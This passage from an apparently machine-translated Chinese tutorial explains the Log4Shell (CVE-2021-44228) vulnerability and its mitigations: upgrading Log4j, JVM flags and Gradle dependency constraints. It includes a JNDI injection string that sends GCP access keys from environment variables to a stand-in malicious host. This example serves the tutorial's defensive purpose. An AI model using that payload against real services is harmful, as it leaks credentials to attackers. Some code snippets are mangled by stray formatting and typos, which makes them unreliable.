 *简单的说，突击利用 Log4j 漏洞下载 ***软件*** ，然后发起下载一个 ***。exe 文件*** ，然后安装一个 ***的 crypto-miner*** 。一旦安装完毕，加密矿工就开始*利用受害者的资源*为攻击者的利益挖掘加密货币，所有的 ***都不会让受害者意识到*** 他们已经被黑了。*

*这个漏洞被命名为 ***Log4Shell*** 是有原因的。几乎就像任何人都可以在任何服务器上打开一个 shell 并发出命令。 ***是啊，就那么差！****

## *解决方法是什么？*

*在本教程结束时，您可能会想，“*嗯，这对我很好，因为我没有使用 Log4j…* ”但是，*您有多确定*？您的库可能使用 Log4j 进行日志记录，即使您没有直接使用它，或者它们可能使用其他利用 Log4j 进行日志记录的库。这个循环永无止境。鉴于 Log4j 的流行，任何运行在互联网上的适当规模的 Java 应用程序都可能安装了它。*

*首先，解决这个问题最简单的方法是通过在 JVM 中 ***设置几个标志为假*** 来**阻止任何来自外部 URL**的代码:*

```
*com.sun.jndi.ldap.object.trustURLCodebase
con.sunjndi.rmi.object.trustURLCodebase*
```

*然而，即使这些标志被禁用，并且您的 JVM 不信任并反序列化它接收到的对象，如果进行了调用，您可能仍然会遇到 ***环境变量*** 的问题。看一看以下内容:*

```
*${jndi:ldap://www.maliciouswebsite.com:1234/${env:GCP_ACCESS_KEY_ID}/${env:GCP_SECRET_ACCESS_KEY}}*
```

*您的键值很可能会被保存为环境变量，您会将这些变量传输到恶意站点。即使你不信任来电回复，但电话已经打了，数据也已经转移了。你的 ***访问*** 和 ***秘密*** 的钥匙将会在黑客手中。*

*为了避免所有这些混乱，你必须首先 ***更新 Log4j 到一个更新的版本*** (2.16 或更高)。Log4j ***2.16.0*** (对于 Java 8 或更高版本)中禁用了消息查找功能，并且为了缓解 CVE-2021–44228 和 CVE-2021–45046，JNDI 在默认情况下处于禁用状态。此外，从版本 ***2.17.0*** (对于 Java 8)开始，JNDI 连接中不再支持 LDAP 协议，仅支持 Java 协议。*

*这是一个简单的方法，但是如果你有很多*交织*的依赖关系，这可能会导致问题。另一个选择是 ***直接给类*** 打补丁，这样就不用手动升级每个依赖的版本了。*

*如果你使用 Gradle，还有一个叫做 ***的依赖约束*** 的东西。下面这段代码基本上是说你想要某个版本的库，不考虑依赖关系，而且必须是 ***严格更新*** 到 2.16 以上。*

```
**dependencies* {
    *constraints* {
        *implementation("org.apache.logging.log4j*:log4j-core") {
            *version* {
                *strictly("[2.16,* 3[")
                *prefer("2.16.0)
            }
            because("CVE-2021-44228*: Log4j vulnerable to remote code execution")
        *}
    }
}**
```

*你可能已经猜到了，在黑客进入你的机器之前，尽快解决这个*是很关键的。感兴趣的读者可以在互联网上找到一些资源，提供全面的 [***问答环节***](https://www.secureworks.com/blog/log4j-vulnerability-faqs) 。Google 还编制了一份受影响的 500 个包 的列表 ***，其中包括一些最重要的传递性使用。作为维护者或用户优先考虑这些包可能会最大化您的影响。*****

**总而言之，检查您的系统的 Log4j 使用情况，查看易受影响的应用程序列表，联系软件供应商，配置 web 应用程序防火墙规则，监控扫描活动，监控漏洞利用，保持消息灵通，当然， ***不要错过我未来的文章*** ！**